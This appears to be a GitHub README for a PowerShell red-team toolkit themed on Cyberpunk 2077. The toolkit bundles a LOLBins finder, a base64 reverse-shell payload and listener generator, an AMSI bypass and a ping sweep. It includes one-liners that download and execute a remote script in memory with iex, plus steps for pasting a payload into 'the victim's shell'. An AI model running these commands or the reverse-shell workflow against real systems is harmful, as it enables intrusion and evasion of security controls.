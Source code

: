 <div align="center" style="display:flex;">
  <img src="https://github.com/h0ru/antiarasaka/assets/117091833/c5e7af4a-d7b7-484e-be27-ea9fbed97749" width="800">
</div>

- - - 

> [!Warning]
> **This program was written and designed for educational purposes, with features associated with the world of Cyberpunk 2077.** \
> **The project's author does not take responsibility for any use of the tool and maintains its use strictly for educational purposes.**

- - -

> [!NOTE] 
> **This project explores ideas that have already been developed in my previous projects, but it was created to optimize and also motivate me to create something larger.**\
> **Being a fan of the Cyberpunk 2077 story, I sought inspiration in "something" that could counter Arasaka. So here is the idea: AntiArasaka T00l K1t.**

- - -

### What will you find here?

```
aka.ps1
├──AntiArasaka-Alias               # Similar to Get-Alias
├──AntiArasaka-Help                # Similar to Get-Help
├──LOLBins Finder             
|  └──AntiArasaka-Binaries         # Based on LOLBAS Projetct
├──Generator RevShell & Listener           
|  ├──AntiArasaka-Listener         # Native powershell listener
|  └──AntiArasaka-Payload          # PowerShell paylaod base64 encoded
├──AMSI-Reaper
|  └──AntiArasaka-Reaper           # Based on my project AMSI-Reaper
└──PSWEEPX
   └──AntiArasaka-Sweep            # Based on my project PSWEEPX from icmp-quickhacks
```

- - -

### How to use?

> [!TIP]
> #### _Less DISK, more RAM_
```
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/h0ru/antiarasaka/main/aka/aka.ps1')
```
```
iex (iwr https://raw.githubusercontent.com/h0ru/antiarasaka/main/aka/aka.ps1)
```
```
iex (irm https://raw.githubusercontent.com/h0ru/antiarasaka/main/aka/aka.ps1)
```

> [!TIP]
> #### _Use the aliases_
```
        Command                          Alias
        -------                          ------
        AntiArasaka-Alias          ->     aaa
        AntiArasaka-Help           ->     aah
        AntiArasaka-Binaries       ->     aab
        AntiArasaka-Listener       ->     aal
        AntiArasaka-Payload        ->     aap
        AntiArasaka-Reaper         ->     aar
        AntiArasaka-Sweep          ->     aas
```

> [!TIP]
> #### _What is the purpose of the AntiArasaka-Binaries?_
- Based on the concept of the 198 exploits cataloged at: https://lolbas-project.github.io, I wanted to create a small validator using PowerShell, just a way to verify what we have in the current system that can be used as LOLBINS.
- Good references to LOLBINS: [The LOLBAS Project](https://mitre-attack.github.io/attack-navigator/#layerURL=https://lolbas-project.github.io/mitre_attack_navigator_layer.json)
- How to use AntiArasaka-Binarie.:
```
AntiArasaka-Binarie
AntiArasaka-Binarie -Filter .exe, .dll, .ps1
AntiArasaka-Binarie -Filter .vbs
AntiArasaka-Binarie -Name cmd.exe
AntiArasaka-Binarie -Name .bat
AntiArasaka-Binarie -Name winrm.vbs
```

> [!TIP]
> #### _How to use AntiArasaka-Listener & AntiArasaka-Payload_
- Attention to these errors:
![image](https://github.com/h0ru/antiarasaka/assets/117091833/63e1ed73-2629-4a2d-87a0-ec7b388d5e34)
![image](https://github.com/h0ru/antiarasaka/assets/117091833/75af46c3-5875-4986-8a73-32b1e849fc49)
```
1. aap -i 192.168.1.1 -p 443 #Payload
2. aal -i 192.168.1.3 -p 443 #Listener
3. [+] Payload copied to clipboard! Use Ctrl+V to paste and execute.
4. Paste your payload into the victim's shell (Consider hosting the shell on a file and requesting it remotely)
```

- - -

> [!IMPORTANT]
> - [❗] More updates will come and Anti-Arasaka will have more features!
> - [❗] Did you like the idea and the work? Show your support with a ⭐ to stay updated.
> - [❗] If you're interested in helping or sharing your opinion, reach out to me through public channels or on Discord at **ph4nt0m.zip**.

- - - 
